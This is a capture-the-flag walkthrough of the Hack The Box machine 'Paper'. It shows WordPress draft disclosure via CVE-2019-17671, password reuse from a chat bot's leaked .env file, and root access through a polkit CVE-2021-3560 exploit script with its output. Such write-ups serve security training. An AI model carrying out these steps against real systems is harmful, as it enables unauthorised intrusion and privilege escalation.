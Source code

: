 ```yaml
---
title: Paper - Hack The Box
date: 2025-03-14
---
```


![Cap - info card](/ctf/hack-the-box/machines/paper/info-card.png)

## Enumeration

### Nmap Scan

We begin by running a Nmap scan to identify open ports and services on the target machine:

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|_  256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
```

The scan reveals three open ports:

- Port 22: SSH (OpenSSH 8.0)
- Port 80: HTTP (Apache httpd 2.4.37)
- Port 443: HTTPS (Apache httpd 2.4.37)

### Web Enumeration

Navigating to the target’s IP in a browser displays a default **Apache test page**.

![Cap - Apache test page](/ctf/hack-the-box/machines/paper/apache-test-page.png)

Port **443** serves the same page. Checking the HTTP response headers using `curl`:

```bash
$ curl -s -D - -o /dev/null http://10.10.11.143
HTTP/1.1 403 Forbidden
Date: Tue, 18 Mar 2025 06:38:44 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
...
```

The `X-Backend-Server` header reveals the internal hostname: `office.paper`.
We add this to `/etc/hosts`:

```bash
echo "10.10.11.143 office.paper" | sudo tee -a /etc/hosts
```

### Discovering WordPress

Visiting `http://office.paper/` reveals a Blunder Tiffin Inc. blog.

![Cap - Blunder Tiffin Inc. blog](/ctf/hack-the-box/machines/paper/blunder-tiffin-inc-blog.png)

Inspecting the comments, we find a user **Nick** mentioning a **secret draft page**.

![Cap - Nick's comment](/ctf/hack-the-box/machines/paper/nick-comment.png)

Using **Wappalyzer**, we identify the CMS as **WordPress 5.2.3**.

![Cap - Wappalyzer WordPress](/ctf/hack-the-box/machines/paper/wappalyzer.png)

This version is vulnerable to [CVE-2019-17671](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2/),
allowing unauthenticated users to view private/draft posts.

Appending `?static=1` to the URL reveals a **hidden draft post**.

![Cap - Draft post](/ctf/hack-the-box/machines/paper/draft-post.png)

It contains a **secret registration link** for an employee chat system:

```plaintext
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

We add `chat.office.paper` to `/etc/hosts`:

```bash
echo "10.10.11.143 chat.office.paper" | sudo tee -a /etc/hosts
```

Navigating to the URL presents a **Rocket.Chat registration form**.

![Cap - Chat registration form](/ctf/hack-the-box/machines/paper/chat-registration-form.png)

### Gaining Initial Access

After registering and logging in, we find messages in the **general** channel.

![Cap - Chat messages](/ctf/hack-the-box/machines/paper/chat-messages.png)

A **bot named Recyclops** is mentioned, capable of listing and reading files.

![Cap - Recyclops bot](/ctf/hack-the-box/machines/paper/recyclops-bot.png)

We find **Recyclops' environment file** in `/home/dwight/hubot/.env`:

```bash
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
```

Using these credentials, we attempt SSH login as **dwight**:

```bash
$ ssh dwight@10.10.11.143
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
```

We retrieve the **user flag**:

```bash
[dwight@paper ~]$ cat user.txt
[USER_FLAG]
```

## Privilege Escalation

### Enumeration

Running **LinPEAS**, we identify the **polkit package**:

```bash
[dwight@paper ~]$ rpm -q polkit
polkit-0.115-6.el8.x86_64
```

This version is vulnerable
to [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/tree/main), allowing privilege
escalation.

### Exploitation

We upload and execute an exploit script:

```bash
[dwight@paper ~]$ ./poc.sh

[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[+] Inserted Username secnigma  with UID 1005!
[!] It looks like the password insertion was succesful!
```

Switching to the new user and escalating privileges:

```bash
[dwight@paper ~]$ su - secnigma
Password:
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma:
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
```

We successfully escalate to root and retrieve the **root flag**:

```bash
[root@paper secnigma]# cat /root/root.txt
[ROOT_FLAG]
```

![Cap - pwned](/ctf/hack-the-box/machines/paper/pwned.png)
